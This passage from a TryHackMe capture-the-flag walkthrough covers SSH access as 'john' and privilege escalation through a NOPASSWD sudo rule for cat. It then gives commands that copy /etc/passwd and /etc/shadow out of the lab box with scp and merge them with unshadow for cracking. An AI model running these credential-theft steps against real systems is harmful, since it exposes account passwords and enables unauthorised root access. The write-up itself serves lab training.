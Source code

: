 ## PHASE 3: Gaining Access

We investigated various avenues but ultimately SSH'ing in as `john` with the `id_rsa` SSH key, and the password for that file discovered by John the Ripper was the way in.

### Unprivileged Access

Now that we're SSH'ed in as `john` we can see the `user.txt` flag needed for the TryHackMe room.

It we run a `sudo -l`, we can see we can run `cat` as `sudo`!

### Privilege Escalation

When we run a `sudo -l`, we see:

```bash
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can of course do something like:

```bash
sudo cat /root/root.txt
```

to get the root flag and finish the room, but we haven't actually rooted the box yet!

### Cracking the `/etc/passwd`

Since we will have access to see the contents of `/etc/passwd` and the `/etc/shadow`, then we might see if we can crack the passwords for the accounts on that box. First, on the target machine exfiltrate the contents of those files and put them in a common place:

#### Target Machine:
```bash
sudo cat /etc/passwd > /tmp/passwd
sudo cat /etc/shadow > /tmp/shadow
```

#### Your Workstation:
Then on your workstation, use SCP for example to go get those files from the target machine:

```bash
scp -i ./id_rsa.txt john@10.10.10.10:/tmp/passwd ./
scp -i ./id_rsa.txt john@10.10.10.10:/tmp/shadow ./
```

You can now merge `passwd` and `shadow` and make them one file, like it used to be in the olden days of Unix, with `unshadow`:

```bash
unshadow ./passwd ./shadow > ./combined.txt
```
